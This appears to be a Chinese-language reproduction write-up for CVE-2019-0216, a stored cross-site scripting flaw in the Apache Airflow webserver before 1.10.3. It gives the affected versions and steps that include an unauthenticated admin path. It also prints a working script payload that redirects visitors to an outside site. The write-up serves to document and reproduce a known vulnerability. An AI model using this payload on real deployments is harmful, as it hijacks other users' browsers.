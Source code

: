（CVE-2019-0216）Apache Airflow 储存型xss
=========================================

一、漏洞简介
------------

Apache Airflow 1.10.2及之前版本中的airflow
webserver服务存在跨站脚本漏洞，该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

Apache Airflow \< 1.10.3

三、复现过程
------------

访问`/admin/dagrun/`（默认是不需要密码）

创建一个项目

1.png

返回列表，可以看到点击"运行"可以让你输入HTML代码

2.png

可以在里面输入代码

    <script>_a="https://www.0-sec.org"</script>
    <script>document.location=_a</script> 

3.png

> 可直接造成储存型xss

4.png
